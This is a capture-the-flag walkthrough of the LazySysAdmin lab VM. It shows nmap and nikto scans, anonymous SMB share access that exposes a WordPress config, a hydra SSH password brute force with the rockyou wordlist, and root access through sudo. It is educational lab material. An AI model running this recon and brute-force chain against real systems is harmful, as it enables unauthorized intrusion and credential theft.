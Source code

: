 # LazySysAdmin VM Walkthrough


Netdiscover result:

       Currently scanning: 192.168.48.0/16   |   Screen View: Unique Hosts           
                                                                                       
         3 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 126               
         _____________________________________________________________________________
           IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
         -----------------------------------------------------------------------------
         192.168.42.129  9a:d1:53:35:56:b5      2      84  Unknown vendor              
         192.168.42.55   08:00:27:c1:be:89      1      42  PCS Systemtechnik GmbH 
         
Nmap results:         

        $sudo nmap -sS -sV -p- -A 192.168.42.55
        
        
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 18:16 IST
        Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
        Service scan Timing: About 83.33% done; ETC: 18:16 (0:00:02 remaining)
        Nmap scan report for 192.168.42.55
        Host is up (0.00045s latency).
        Not shown: 65529 closed tcp ports (reset)
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   1024 b538660fa1eecd41693b82cfada1f713 (DSA)
        |   2048 585a6369d0dadd51ccc16e00fd7e61d0 (RSA)
        |   256 6130f3551a0ddec86a595bc99cb49204 (ECDSA)
        |_  256 1f65c0dd15e6e421f2c19ba3b655a045 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        |_http-title: Backnode
        | http-robots.txt: 4 disallowed entries 
        |_/old/ /test/ /TR2/ /Backnode_files/
        |_http-generator: Silex v2.2.7
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        3306/tcp open  mysql       MySQL (unauthorized)
        6667/tcp open  irc         InspIRCd
        | irc-info: 
        |   server: Admin.local
        |   users: 1
        |   servers: 1
        |   chans: 0
        |   lusers: 1
        |   lservers: 0
        |   source ident: nmap
        |   source host: 192.168.42.230
        |_  error: Closing link: (nmap@192.168.42.230) [Client exited]
        MAC Address: 08:00:27:C1:BE:89 (Oracle VirtualBox virtual NIC)
        Device type: general purpose
        Running: Linux 3.X|4.X
        OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
        OS details: Linux 3.2 - 4.9
        Network Distance: 1 hop
        Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: lazysysadmin
        |   NetBIOS computer name: LAZYSYSADMIN\x00
        |   Domain name: \x00
        |   FQDN: lazysysadmin
        |_  System time: 2023-06-02T22:46:38+10:00
        |_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
        | smb2-security-mode: 
        |   311: 
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-time: 
        |   date: 2023-06-02T12:46:38
        |_  start_date: N/A

        TRACEROUTE
        HOP RTT     ADDRESS
        1   0.45 ms 192.168.42.55

        OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
        
        
use the link to get some direct        
        
        http://192.168.42.55/robots.txt
        
        
        User-agent: *
        Disallow: /old/
        Disallow: /test/
        Disallow: /TR2/
        Disallow: /Backnode_files/       
Busting directories with nikto:

        
        $nikto -h http://192.168.42.55                                                             
        
        - Nikto v2.5.0
        ---------------------------------------------------------------------------
        + Target IP:          192.168.42.55
        + Target Hostname:    192.168.42.55
        + Target Port:        80
        + Start Time:         2023-06-02 18:28:05 (GMT5.5)
        ---------------------------------------------------------------------------
        + Server: Apache/2.4.7 (Ubuntu)
        + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
        + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
        + No CGI Directories found (use '-C all' to force check all possible dirs)
        + /test/: Directory indexing found.
        + /robots.txt: Entry '/test/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /old/: Directory indexing found.
        + /robots.txt: Entry '/old/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /Backnode_files/: Directory indexing found.
        + /robots.txt: Entry '/Backnode_files/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /robots.txt: contains 4 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
        + Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
        + /: Server may leak inodes via ETags, header found with file /, inode: 8ce8, size: 5560ea23d23c0, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
        + OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
        + /apache/: Directory indexing found.
        + /apache/: This might be interesting.
        + /old/: This might be interesting.
        + /phpmyadmin/changelog.php: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.22.
        + /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 0.
        + /test/: This might be interesting.
        + /info.php: Output from the phpinfo() function was found.
        + /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
        + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
        + /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
        + /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
        + /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
        + /wordpress/: Drupal Link header found with value: <http://192.168.42.55/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
        + /wordpress/: A Wordpress installation was found.
        + /phpmyadmin/: phpMyAdmin directory found.
        + /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
        + /wordpress/wp-login.php?action=register: Wordpress registration enabled.
        + /wordpress/wp-content/uploads/: Directory indexing found.
        + /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
        + /wordpress/wp-login.php: Wordpress login found.
        + 8258 requests: 0 error(s) and 32 item(s) reported on remote host
        + End Time:           2023-06-02 18:28:11 (GMT5.5) (6 seconds)
        ---------------------------------------------------------------------------
        + 1 host(s) tested
        
Opening the wordpress in the browser results,
![image](https://github.com/keerthiprabup/VM/assets/116485904/dc99ae95-dc38-4b07-bef4-f893c641b2ed)

        
        
        
        
        
        

We could see smb is hosted in the vm by nmap scan

So we can try connecting to it with smbclient command:

         $smbclient -L 192.168.42.55
        
Results:

![image](https://github.com/keerthiprabup/VM/assets/116485904/9af721da-33cc-464c-8dd0-f551c574e8e7)


Getting into the sharename share$ using the command:

Boom! we got a smb client!
![image](https://github.com/keerthiprabup/VM/assets/116485904/c33db267-e129-4ef0-b5e0-3f1cee52006c)

We could find a config file inside the dir:

       
       /wordpress/

![image](https://github.com/keerthiprabup/VM/assets/116485904/0c1f9579-8b2a-4eed-9b16-c4557b30a0a9)


Get the config file to your local system using get command.
![image](https://github.com/keerthiprabup/VM/assets/116485904/f60d82dd-1311-4f52-b664-19ca36f21c76)

We got some mysql credentials from the file:
![image](https://github.com/keerthiprabup/VM/assets/116485904/1d69af55-92ee-42b0-8d70-a04bfc3483ed)


Using hydra we could perform a bruteforce attack on the ssh server using the username that we got from the wordpress:togie

Results:


        # hydra -l togie -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.55/ -t 4
        Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-02 19:02:38
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
        [DATA] attacking ssh://192.168.42.55:22/
        [22][ssh] host: 192.168.42.55   login: togie   password: 1234


As we got the username and the password, we could access the ssh server by logging into it:
![image](https://github.com/keerthiprabup/VM/assets/116485904/5aa57962-26d1-4ec4-a2b1-f74c04edf299)

The user is in the sudoers file so that the user can perform sudo command.

Use the command $sudo su to switch to the root user:

![image](https://github.com/keerthiprabup/VM/assets/116485904/1ab80933-988b-40d9-b1d4-c34cff68a60e)

We have a file in the root directory:

![image](https://github.com/keerthiprabup/VM/assets/116485904/f8a7f435-6035-4f3e-b8ca-3d22a0198938)
